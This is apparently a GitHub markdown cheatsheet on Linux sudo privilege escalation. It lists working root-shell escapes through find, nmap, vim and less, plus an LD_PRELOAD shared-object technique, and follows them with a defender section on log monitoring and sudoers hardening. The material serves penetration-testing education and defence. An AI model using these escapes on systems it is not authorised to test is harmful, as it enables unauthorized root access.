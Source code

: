 ## 🔑 Cheatsheet: Sudo Privilege Escalation

The `sudo` command allows a permitted user to execute a command as another user, typically the superuser (`root`). A misconfiguration occurs when the permissions granted are too broad, allowing a user to perform unintended actions, often leading to a full root shell.

### ## What to Look For (Reconnaissance)

The primary command to check your own `sudo` privileges is `sudo -l`. An attacker will run this immediately after gaining initial access to a machine.

* **Check Your Privileges:**
    ```bash
    sudo -l
    ```
* **Interpreting the Output:** The output will list the commands you are allowed to run. Pay close attention to:
    * `(ALL : ALL) ALL`: You are all-powerful.
    * `(root) NOPASSWD: /usr/bin/find`: You can run the `find` command as root without a password.
    * User-defined aliases that might contain dangerous commands.
    * Entries that preserve environment variables (`env_keep`).

---

### ## Common Exploitable Scenarios & Payloads

The goal is to use an allowed command to spawn a root shell. **GTFOBins** is the ultimate resource for finding shell escapes for Unix binaries.

#### **Scenario 1: `(ALL) ALL`**
This is the jackpot. It means you can run any command as root.

* **Output of `sudo -l`:**
    ```
    User user may run the following commands on this host:
        (ALL : ALL) ALL
    ```
* **Exploitation:**
    ```bash
    sudo su
    # Or
    sudo /bin/bash
    # Or
    sudo -i
    ```

#### **Scenario 2: Binaries with Shell Escapes**
Many standard Linux commands can be used to execute other commands or spawn a shell.

* **Output of `sudo -l`:**
    ```
    (root) NOPASSWD: /usr/bin/find
    (root) /usr/bin/nmap
    (root) /usr/bin/vim
    ```
* **Exploitation (Examples from GTFOBins):**
    * **find:**
        ```bash
        sudo find . -exec /bin/sh \; -quit
        ```
    * **nmap (interactive mode):**
        ```bash
        sudo nmap --interactive
        # At the nmap prompt, type: !sh
        ```
    * **vim:**
        ```bash
        sudo vim
        # In vim, type: :!/bin/sh
        ```
    * **less/more:** Open a file with `sudo less /etc/profile` and then type `!/bin/sh`.

#### **Scenario 3: `LD_PRELOAD` / `LD_LIBRARY_PATH` Abuse**
If the `sudoers` configuration preserves the `LD_PRELOAD` variable, you can load a malicious shared object into a program executed with `sudo`.

* **Output of `sudo -l` shows:**
    ```
    env_keep+=LD_PRELOAD
    ```
* **Simplified Exploitation:**
    1.  Write a simple C file (`shell.c`) that spawns a shell.
    2.  Compile it as a shared object: `gcc -fPIC -shared -o shell.so shell.c`
    3.  Run any allowed sudo command with `LD_PRELOAD` pointing to your malicious library:
        ```bash
        sudo LD_PRELOAD=/tmp/shell.so find
        ```

---

### ## 🛡️ Detection & Remediation (For Defenders)

#### **How to Detect an Attempt**

* **Audit Logs:** Sudo command executions are typically logged to `/var/log/auth.log` or `/var/log/secure`. Monitor these logs for suspicious or unusual commands being executed by users via `sudo`.
* **Behavioral Analysis:** An administrator running `sudo find` to locate a file is normal. A web server's user account (`www-data`) running `sudo find` to execute a shell is a massive red flag.

#### **How to Prevent Sudo Misconfigurations**

* **Principle of Least Privilege:** This is the most important rule. **Never** use `(ALL : ALL) ALL`. Grant users access to the *specific* commands they need for their job, and nothing more.
* **Specify Full Paths:** Always use the full path to a binary (e.g., `/usr/sbin/service`) to prevent an attacker from manipulating the `$PATH` to run their own malicious script.
    ```
    # Bad:
    user ALL=(root) service

    # Good:
    user ALL=(root) /usr/sbin/service
    ```
* **Avoid Dangerous Binaries:** Do not grant `sudo` access to programs that can easily spawn shells. This includes editors (`vim`, `nano`), pagers (`less`, `more`), scripting languages (`perl`, `python`), and tools like `find`, `tar`, `nmap`, etc., unless absolutely unavoidable.
* **Use `secure_path`:** Ensure the `secure_path` directive is set in your `/etc/sudoers` file to define a safe and standard `PATH` for commands executed by `sudo`.
* **Regular Audits:** Periodically review the `/etc/sudoers` file and any files in `/etc/sudoers.d/` to remove unnecessary permissions and ensure rules are still appropriate. Use the `visudo` command to edit the file, as it performs syntax checking.
